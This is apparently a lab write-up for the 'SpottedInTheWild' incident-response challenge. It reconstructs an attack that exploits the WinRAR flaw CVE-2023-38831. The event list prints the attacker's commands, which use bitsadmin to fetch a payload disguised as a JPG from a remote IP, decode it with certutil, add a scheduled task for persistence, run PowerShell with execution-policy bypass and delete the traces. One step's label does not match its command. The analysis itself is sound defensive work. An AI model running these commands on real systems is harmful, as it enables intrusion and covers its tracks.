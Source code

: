 # Cyber Defender's "SpottedInTheWild" write-up.

## Scenario
"You are part of the incident response team at FinTrust Bank. This morning, the network monitoring system flagged unusual outbound traffic patterns from several workstations. Preliminary analysis by the IT department has identified a potential compromise linked to an exploited vulnerability in WinRAR software."

#CVE-2023-38831 Detail:
RARLAB WinRAR before 6.23 allows attackers to execute arbitrary code when a user attempts to view a benign file within a ZIP archive. The issue occurs because a ZIP archive may include a benign file (such as an ordinary .JPG file) and also a folder that has the same name as the benign file, and the contents of the folder (which may include executable content) are processed during an attempt to access only the benign file. This was exploited in the wild in April through October 2023.
https://nvd.nist.gov/vuln/detail/cve-2023-38831


##Event order:
1. Download amanwhogetsnorest.jpg via bitsadmin:
<pre>
bitsadmin /transfer Nothing /download /priority normal http://172.18.35.10:8000/amanwhogetsnorest.jpg C:\Windows\Temp\amanwhogetsnorest.jpg 
</pre>
2. Used certutil to decode amanwhogetsnorest.jpg, saving the output as normal.zip. (normal.zip contained z.ps1, Eventlog.ps1, run.bat and run.ps1)
<pre>
certutil -decode amanwhogetsnorest.jpg normal.zip 1>nul
</pre>
3. Opened the command prompt to run z.ps1 from PowerShell

4. Created a scheduled  \whoisthebaba
<pre>
schtasks /create /sc minute /mo 3 /tn "whoisthebaba" /tr C:\Windows\Temp\run.bat /RL HIGHEST
</pre>
5. Deleted z.ps1
<pre>
cmd /c "powershell -NOP -EP Bypass C:\Windows\Temp\z.ps1"
</pre>
6. delete amanwhogetsnorest.jpg
<pre>
del amanwhogetsnorest.jpg
 </pre>
7. Deleted normal.zip
<pre>
del normal.zip 
</pre>
8. Open CMD to run Eventlog.ps1 from PowerShell
<pre>
cmd /c "powershell -NOP -EP Bypass C:\Windows\Temp\Eventlog.ps1"
 </pre>
9. Deleted Eventlog.ps1
<pre>
del Eventlog.ps1
 </pre>
